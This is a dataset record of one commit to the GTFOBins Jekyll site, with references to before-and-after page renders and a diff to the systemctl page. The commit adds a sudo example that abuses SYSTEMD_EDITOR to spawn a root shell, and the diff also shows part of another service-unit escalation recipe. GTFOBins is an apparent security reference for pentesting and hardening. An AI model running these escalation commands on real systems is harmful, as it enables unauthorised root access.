

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/systemctl.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 951 px from its top, so only the background shows below that.

Commit message:
Add systemctl example using SYSTEMD_EDITOR
Close #65.

```diff
--- a/_gtfobins/systemctl.md
+++ b/_gtfobins/systemctl.md
@@ -12,6 +12,11 @@ functions:
         ./systemctl enable --now $TF
   sudo:
     - code: |
+        TF=$(mktemp)
+        echo /bin/sh >$TF
+        chmod +x $TF
+        sudo SYSTEMD_EDITOR=$TF systemctl edit system.slice
+    - code: |
         TF=$(mktemp).service
         echo '[Service]
         Type=oneshot
```
